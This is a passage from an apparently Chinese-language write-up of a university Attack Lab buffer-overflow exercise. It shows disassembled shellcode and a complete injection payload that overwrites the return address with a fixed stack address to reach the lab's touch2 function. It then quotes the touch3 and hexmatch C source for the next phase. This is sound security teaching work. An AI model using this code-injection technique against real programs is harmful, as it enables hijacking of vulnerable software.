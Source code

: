 将汇编给编译后反汇编，得出对应的字节码

```text
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

这一部分的attack，没有开启栈地址随机化，因此我们可以通过GDB打断点，得出`%rsp`的地址为`0x5561dc78`

所以最后构造出来的字节码如下，注意，汇编指令的字节码，不需要按大小端序进行排布。

```text
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* to injected code */
```

### Phase 3

这个attack是要我们跳转到`touch3()`中

```c
 /* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
  char cbuf[110];
  /* Make position of check string unpredictable */
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */
  if (hexmatch(cookie, sval)) {
    printf("Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  } else {
    printf("Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```

Writeup里头写了这些

> When functions hexmatch and strncmp are called, they push data onto the stack, **overwriting portions of memory that held the buffer used by getbuf**. As a result, you will need to be careful where you place the string representation of your cookie.
